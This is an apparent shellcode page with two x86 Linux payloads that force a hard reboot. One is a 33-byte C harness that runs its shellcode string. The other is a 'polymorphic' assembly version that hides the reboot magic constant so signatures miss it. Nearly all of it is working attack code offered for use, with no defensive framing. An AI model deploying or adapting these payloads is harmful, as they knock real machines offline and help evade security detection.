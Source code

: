 ```c
Name   : 33 bytes hard / unclean reboot but data not be lost x86 linux shellcode 
Date   : Thu Jun  3 12:54:55 2010
Author : gunslinger_ <yudha.gunslinger[at]gmail.com>
Web    : http://devilzc0de.org
blog   : http://gunslingerc0de.wordpress.com
tested on : linux ubuntu 9.04 , may cause fsck on reboot
special thanks to : r0073r (inj3ct0r.com), d3hydr8 (darkc0de.com), ty miller (projectshellcode.com), jonathan salwan(shell-storm.org), mywisdom (devilzc0de.org)
greetz to : flyff666, whitehat, ketek, chaer, peneter, and all devilzc0de crew
*/
#include <stdio.h>

char *shellcode=
		"\xb0\x24"                    /* mov    $0x24,%al */
		"\xcd\x80"                    /* int    $0x80 */
		"\x31\xc0"                    /* xor    %eax,%eax */
		"\xb0\x58"                    /* mov    $0x58,%al */
		"\xbb\xad\xde\xe1\xfe"        /* mov    $0xfee1dead,%ebx */
		"\xb9\x69\x19\x12\x28"        /* mov    $0x28121969,%ecx */
		"\xba\x67\x45\x23\x01"        /* mov    $0x1234567,%edx */
		"\xcd\x80"                    /* int    $0x80 */
		"\x31\xc0"                    /* xor    %eax,%eax */
		"\xb0\x01"                    /* mov    $0x1,%al */
		"\x31\xdb"                    /* xor    %ebx,%ebx */
		"\xcd\x80";                   /* int    $0x80 */

int main(void)
{
		fprintf(stdout,"Length: %d\n",strlen(shellcode));
		((void (*)(void)) shellcode)();
		return 0;
}

```

Modified code:

```c
http://shell-storm.org/shellcode/files/shellcode-639.php
hard reboot (without any message) and data not lost - 33 bytes
Polymorphic version 39 bytes
Author : Alain Menelet

global _start
section .text

_start:
	push byte 0x24
	pop eax
	int 0x80
	push byte 0x58
	pop eax
	mov ebx, 0xfee1dead	; linux_reboot_magic1
	mov ecx, 0x15E0F657	; linux_reboot_magic2
        add ecx, 0x12312312 
	mov edx, 0x1234567	; linux_reboot_cmd_restart
	int 0x80
	xor eax, eax
	mov al, 0x1
	xor ebx, ebx
	int 0x80

```

